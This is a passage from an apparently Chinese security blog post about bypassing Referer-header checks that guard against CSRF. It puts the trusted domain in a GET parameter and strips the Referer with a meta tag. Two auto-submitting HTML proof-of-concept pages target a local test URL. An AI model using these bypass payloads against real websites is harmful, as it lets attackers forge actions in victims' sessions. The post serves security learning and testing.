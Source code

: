 ![rand](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2018-08-01/0x03.png)

- `？号` 

将域名作为GET请求参数进行绕过：

![subdomain](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2018-08-01/0x04.png)

### 打破常规

#### 无Referer

之前在做测试的时候，将Referer头删除也可以绕过，但是在真正的利用中能不能去实现呢？是可以的。

在HTML标签中有这样一个标签`<meta>`，而这个标签是表示无Referer，就是如下的代码：

```html
<meta name="referrer" content="never">
```

我原来的PoC为：

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/test.php">
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

修改之后的PoC为：

```html
<html>
  <meta name="referrer" content="never">
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/test.php">
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![null referer](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2018-08-01/0x05.png)

#### 与其他资源组合
